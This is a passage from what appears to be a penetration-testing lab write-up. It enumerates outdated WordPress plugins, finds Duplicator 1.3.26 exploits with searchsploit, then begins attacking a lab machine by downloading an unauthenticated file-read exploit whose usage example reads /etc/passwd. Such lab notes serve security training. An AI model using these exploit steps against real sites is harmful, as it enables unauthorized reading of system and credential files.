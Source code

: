 ```bash
	 | Version: 19.7.1 (100% confidence)
	 ...
```
	- Plugins id'd:
		- akismet  --> Version not detected
		- classic-editor  --> Out of date  --> v1.6.2
		- contact-form-7  --> Out of date  --> v5.6.3  --> Vulns discovered
		- duplicator  --> Out of date  --> v1.3.26  --> Vulns discovered
		- elementor  --> Out of date  --> v3.7.7  --> Vulns discovered
		- wordpress-seo  --> Out of date  --> 19.7.1  --> Vulns discovered


- Easiest to use **searchsploit** to search for attacks
```bash
searchsploit duplicator 1.3.26
	--------------------------------------------------------------------------------------------------------- ---------------------------------
	 Exploit Title                                                                                           |  Path
	--------------------------------------------------------------------------------------------------------- ---------------------------------
	Wordpress Plugin Duplicator 1.3.26 - Unauthenticated Arbitrary File Read                                 | php/webapps/50420.py
	Wordpress Plugin Duplicator 1.3.26 - Unauthenticated Arbitrary File Read (Metasploit)                    | php/webapps/49288.rb
	WordPress Plugin Duplicator < 1.5.7.1 - Unauthenticated Sensitive Data Exposure to Account Takeover      | php/webapps/51874.py
	--------------------------------------------------------------------------------------------------------- ---------------------------------
	Shellcodes: No Results
	Papers: No Results
```
	- Searching exploits for other plugins didn't yield much of anything.


# Attacking a Public Machine

### WEBSRV1 - 244

#### Initial foothold

- Utilize **searchsploit** result `Wordpress Plugin Duplicator 1.3.26 - Unauthenticated Arbitrary File Read | php/webapps/50420.py`
```bash
# Download exploit
searchsploit -m 50420.py

# Rename for clarity
mv 50420.py 50420_fileread.py

# Check file to know what it's doing & check for malicious shellcode
cat 50420_fileread.py
	# Exploit Title: Wordpress Plugin Duplicator 1.3.26 - Unauthenticated Arbitrary File Read
	# ...
	
	import requests as re
	import sys
	
	if len(sys.argv) != 3:
	        print("Exploit made by nam3lum.")
	        print("Usage: CVE-2020-11738.py http://192.168.168.167 /etc/passwd")
	        exit()
	
	arg = sys.argv[1]
```